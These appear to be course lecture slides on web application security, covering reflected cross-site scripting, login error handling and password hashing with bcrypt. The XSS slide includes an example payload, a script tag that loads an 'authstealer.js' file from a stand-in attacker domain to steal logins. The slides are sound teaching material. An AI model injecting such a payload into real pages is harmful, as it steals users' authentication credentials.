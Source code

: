 -###-

## Cross-site scripting attacks: reflected attack

* Mallory notices that when she searches example.com for "puppies", the following happens:
* She taken to the page example.com/?q=puppies
* She is show a page that simply says "puppies not found!"
* What could happen if Mallory searches for:

```
<script src="http://mallorysevilsite.com/authstealer.js"></script>
```

-###-

## Site design: Error handling

* Consider login controller from minitwit
* Try to view a private GitHub repo in incognito mode

Note:
* with private repos: confidentiality of content and existence
* What if login told you how many characters were wrong?

-###-

## Data storage: Passwords

* Assertion: You (as a server operator) should know a user's password
* Assertion: Your application should know a user's password

-###-

## Data storage: Passwords

* How can they log in?
* Store hashes of the password!
* If you ever click "forgot password" on a site, and they email you back your password, don't trust that site!

Note:
* Need to protect the user passwords in case your database is compromised
* note hash functions in general will be fast to compute
* use bcrypt()!

-###-

## Hashed password login

* Where should the password be hashed?
    * I.e., where should SHA256(user_pass) be run?
    * On the server side? (Python)
    * On the client side? (JS)?
